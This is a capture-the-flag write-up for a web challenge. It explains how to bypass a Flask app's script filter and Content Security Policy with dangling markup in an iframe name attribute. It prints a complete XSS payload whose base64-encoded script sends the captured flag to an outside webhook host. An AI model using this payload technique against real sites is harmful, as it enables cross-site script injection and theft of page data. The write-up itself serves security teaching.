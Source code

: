 # Double Nested Brief Solution

## Overview

This challenge involves a minimal Flask application with only 2 routes and a Content Security Policy (CSP) that restricts script execution to same-origin sources.

![Flask Application Code](image.png)

## Application Analysis

### Routes
- **`/`** - Index route with XSS vulnerability, but input is filtered through a `sanitize` function before rendering
- **`/gen`** - Endpoint that returns user input with `Content-Type: application/javascript` (crucial for bypass)

### Content Security Policy
```
default-src 'self'; script-src 'self'; style-src 'self'; img-src 'none'; 
object-src 'none'; frame-src data:; manifest-src 'none';
```

**Key CSP Restrictions:**
- `script-src 'self'` - Only allows scripts from same origin (hence the `/gen` endpoint)
- `frame-src data:` - Allows iframes with data URIs

## Vulnerability Analysis

### Sanitization Bypass
The `sanitize` function filters:
- The word "script" (case-insensitive)
- The `&` character (preventing HTML entity encoding in iframe srcdoc)

### Challenge Constraints
- Flag is **not** stored in cookies
- Flag is appended to the top window URL (see bot code below)

![Bot Implementation](image-1.png)

## Exploitation Strategy

### The Core Issue
Since `iframe src` is restricted to `data://` URIs and we can't use HTML entities due to `&` filtering, we need an alternative approach.

### Solution: Markup Dangling Attack

The key insight is exploiting how browsers handle malformed HTML attributes. When we create:

```html
<iframe src='data:text/html;base64,' name=
```

The browser automatically continues parsing text as the `name` attribute value until it finds a closing `>` tag. This means when the flag is appended to the URL, it becomes part of the iframe's `name` attribute.

### Payload Construction

1. **Base64 Encoded Script**: Create a script that accesses `self.name` and exfiltrates it
2. **Iframe with Dangling Attribute**: Use malformed `name` attribute to capture the flag
3. **Data URI**: Embed the script via base64-encoded data URI

### Final Payload

```
https://double-nested.tjc.tf/?i=%3Ciframe%0A%20src=%27data:text/html%3Bbase64,PHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50amMudGYvZ2VuP3F1ZXJ5PXdpbmRvdy5vcGVuKCdodHRwczovL2doYWFhenkuZnJlZS5iZWVjZXB0b3IuY29tLz8nJTJic2VsZi5uYW1lICkiID48L3NjcmlwdD4%27%20name=flag
```

**Decoded Structure:**
```html
<iframe 
  src='data:text/html;base64,PHNjcmlwdCBzcmM9Imh0dHBzOi8vZG91YmxlLW5lc3RlZC50amMudGYvZ2VuP3F1ZXJ5PXdpbmRvdy5vcGVuKCdodHRwczovL2doYWFhenkuZnJlZS5iZWVjZXB0b3IuY29tLz8nJTJic2VsZi5uYW1lICkiID48L3NjcmlwdD4' 
  name=flag
```

**Base64 Decoded Script:**
```html
<script src="https://double-nested.tjc.tf/gen?query=window.open('https://ghaaazy.free.beeceptor.com/?'%2bself.name )"></script>
```

## Result

![Flag Capture](image-2.png)

The flag is successfully exfiltrated through the webhook when the malformed iframe captures it in the `name` attribute and the embedded script accesses it via `self.name`.
